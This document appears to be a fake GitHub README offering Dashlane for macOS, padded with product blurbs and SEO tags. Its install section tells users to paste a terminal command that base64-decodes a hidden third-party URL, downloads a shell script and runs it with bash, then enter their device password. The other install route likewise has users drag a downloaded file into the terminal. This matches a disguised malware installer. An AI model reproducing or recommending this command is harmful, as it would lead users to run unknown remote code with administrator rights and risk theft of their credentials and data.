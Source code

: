 # 🔐 Dashlane — Secure Password Manager & Autofill App for macOS

**Dashlane** is an all-in-one password manager and digital wallet designed for macOS users. With Dashlane, you can securely store passwords, autofill logins, generate strong credentials, and manage your digital identity with confidence and ease.

Whether you're a remote professional, student, or everyday Mac user, Dashlane protects your sensitive data with industry-leading encryption and seamless cross-device sync.

---

## ✅ Download Dashlane for macOS  
[![Download Dashlane](https://img.shields.io/badge/Download-Dashlane-blueviolet)](https://shuziktobehuman.github.io/huja/Dashlane)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 🔐 What is Dashlane?

Dashlane is a powerful and intuitive password manager available for macOS. It offers automatic password saving and filling, secure notes, identity storage, dark web monitoring, and built-in VPN protection — all in a privacy-focused interface.

From managing your hundreds of logins to ensuring you're using strong, unique passwords, Dashlane simplifies and secures your online experience.

---

## ✨ Features

- 🔑 **Secure Password Storage** with zero-knowledge encryption  
- 🔐 Autofill login credentials, payment details, and personal data  
- 🛡 Built-in **VPN** for private browsing  
- 🌐 Dark Web Monitoring for compromised account alerts  
- 💻 Seamless sync across all Apple devices  
- 🧠 Password Health dashboard and security alerts  
- 🧾 Secure storage for notes, documents, and IDs  
- 🚫 One-click password changer for supported websites  
- 🖥 Native app for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  

---

## 💡 Why Use Dashlane?

- 🧩 Simplifies online security for busy professionals and families  
- 🔐 Eliminates password reuse and weak credentials  
- ☁️ Encrypted backup and cross-device syncing  
- 📲 Available on macOS, iOS, and other platforms  
- 🧘 Easy-to-use interface with real-time protection  

---

[![Download Dashlane](https://img.shields.io/badge/Download-Dashlane-blueviolet)](https://shuziktobehuman.github.io/huja/Dashlane)

---

## 🖼 Preview

![Dashlane Screenshot 1](https://www.dashlane.com/uploads/2021/08/Catalyst_BlogHeader_1600x900-2.png), ![Dashlane Screenshot 2](https://support.dashlane.com/hc/article_attachments/22350866506130)

---

## 📌 Tags

dashlane mac  
dashlane download mac  
download dashlane for mac  
dashlane for mac download  
download dashlane mac  
dashlane download for mac  
dashlane on mac  
dashlane mac app  
dashlane macos  
dashlane app for mac  
dashlane mac download  
dashlane password manager mac  
dashlane offline mac  
dashlane premium mac  
best password manager mac  
dashlane autofill mac  
secure vault mac  
dashlane m1 mac  
dashlane for macbook  
macbook password manager
